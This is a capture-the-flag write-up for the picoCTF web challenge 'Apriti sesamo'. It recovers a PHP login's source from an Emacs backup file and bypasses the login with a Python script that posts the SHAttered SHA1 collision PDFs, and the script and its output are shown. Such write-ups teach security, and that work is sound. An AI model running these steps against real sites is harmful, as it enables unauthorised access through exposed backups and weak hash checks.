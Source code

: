 ### Challenge: Apriti sesamo
### Difficulty: Medium
#### Prepared by: deathwish24

The author of this challenge claims that found an unhackable website.
But he is wrong, because we are here to hack it.

By entering the website, we can see a button that says "Login":
<p align="center">
<img src="./assets/apriti1.png"/>
</p>

Clicking on it, we are redirected to a page where we can enter our username and password:
<p align="center">
<img src="./assets/apriti2.png"/>
</p>

If we look closely at the URL, we can see that the login page is a php file:
```
http://verbal-sleep.picoctf.net:57184/impossibleLogin.php
```

If we try to enter a random username and password, we get the following error:
<p align="center">
<img src="./assets/apriti3.png"/>
</p>

Looking at the source code of the page, again we can't find anything interesting.
<p align="center">
<img src="./assets/apriti4.png"/>
</p>

So let's have a look at the hints now.

The first hint says:
```
Backup files
```
The second hint says:
```
Rumor has it, the lead developer is a militant emacs user
```

So let's try to look for backup files in the website.

Googling for backup files on Emacs, we find out that the backup files are usually named with a tilde (~) at the end of the filename.
So let's try to add a tilde at the end of the URL:

```
http://verbal-sleep.picoctf.net:57184/impossibleLogin.php~
```

And now the source code of the page is different:
<p align="center">
<img src="./assets/apriti5.png"/>
</p>

This is a PHP script but its base64 encoded.
So let's try to decode it:

```php
echo base64_decode("\144\130\x4e\154\x63\155\x35\x68\142\127\125\x3d") . "\n";
echo base64_decode("\143\x48\x64\153") . "\n";

echo base64_decode("\x50\x47\112\x79\x4c\172\x35\x47\x59\127\154\163\132\127\x51\x68\111\x45\x35\166\x49\x47\132\163\131\127\x63\x67\x5a\155\71\171\111\x48\x6c\166\x64\x51\x3d\x3d") . "\n";
echo  base64_decode("\x4c\151\64\166\x5a\x6d\x78\x68\x5a\x79\65\60\145\110\x51\75") . "\n";
```

This code gives the following output:
```
username
pwd
<br/>Failed! No flag for you
../flag.txt
```

And by that we can reconstruct the original code:
```php
if (isset($_POST['username']) && isset($_POST['pwd'])) {
    $yuf85e0677 = $_POST['username'];
    $rs35c246d5 = $_POST['pwd'];

    if ($yuf85e0677 == $rs35c246d5) {
        echo "<br>failed!<br>";
    } else {
        if (sha1($yuf85e0677) === sha1($rs35c246d5)) {
            echo file_get_contents("../flag.txt");
        } else {
            echo "<br>failed!<br>";
        }
    }
}
```

So the code is checking if the username and password are the same, and if they are not, it checks if their SHA1 hashes are the same.
If they are, it returns the content of the file `../flag.txt`, which is the flag.

The first thing that comes to mind is to use the hash collision attack.

Searching for SHA1 hash collisions, I found a post on LinkedIn that was on a similar challenge.
The post is from a guy called "Rotimi Akinyele" and it says:

<p align="center">
<img src="./assets/apriti6.png"/>
</p>

Scrolling down, I found a script that generates a hash collision for SHA1:
```python
import requests
import urllib2
rotimi = urllib2.urlopen("http://shattered.io/static/shattered-1.pdf").read()[:500];
letmein = urllib2.urlopen("http://shattered.io/static/shattered-2.pdf").read()[:500];
 
r = requests.get('http://54.202.82.13/', params={'name': rotimi, 'password': letmein});
print r.text
```

This script uses the two files `shattered-1.pdf` and `shattered-2.pdf` to generate a hash collision for SHA1.

So let's try to patch the script to use our own URL and see if it works.

```python
import requests
from urllib.request import urlopen

# Download the full content of the PDF files
input1 = urlopen("http://shattered.io/static/shattered-1.pdf").read()
input2 = urlopen("http://shattered.io/static/shattered-2.pdf").read()

# Send a POST request with the PDF content as form data
r = requests.post('http://verbal-sleep.picoctf.net:57184/impossibleLogin.php', data={'username': input1, 'pwd': input2})

# Print the response
print(r.text)
```

Now let's run the script and see what we get:
```bash
$ python3 script.py
<!DOCTYPE html>
<html>
<head>
    <title>Login Page</title>
</head>
<body style="text-align:center;">
    <pre>
 _               _         _  __                                       
| |             (_)       (_)/ _|                                      
| | ___   __ _   _ _ __    _| |_   _   _  ___  _   _    ___ __ _ _ __  
| |/ _ \ / _` | | | '_ \  | |  _| | | | |/ _ \| | | |  / __/ _` | '_ \ 
| | (_) | (_| | | | | | | | | |   | |_| | (_) | |_| | | (_| (_| | | | |
|_|\___/ \__, | |_|_| |_| |_|_|    \__, |\___/ \__,_|  \___\__,_|_| |_|
          __/ |                     __/ |                              
         |___/                     |___/                               


    </pre>
    <br/>
    <form action="impossibleLogin.php" method="post">
        <label for="username">Username:</label><br>
        <input type="text" id="username" name="username"><br>
        <label for="pwd">Password:</label><br>
        <input type="password" id="pwd" name="pwd"><br><br>
        <input type="submit" value="Login">
    </form>
</body>
</html>

picoCTF{...._........_....._........}
```

And there we go, we have the flag!

### Sources:
- [Emacs backup files](https://stackoverflow.com/questions/151945/how-do-i-control-how-emacs-makes-backup-files)
- [SHA1 hash collision attack post](https://www.linkedin.com/pulse/using-sha1-collision-attack-solve-bostonkeyparty-ctf-rotimi/)

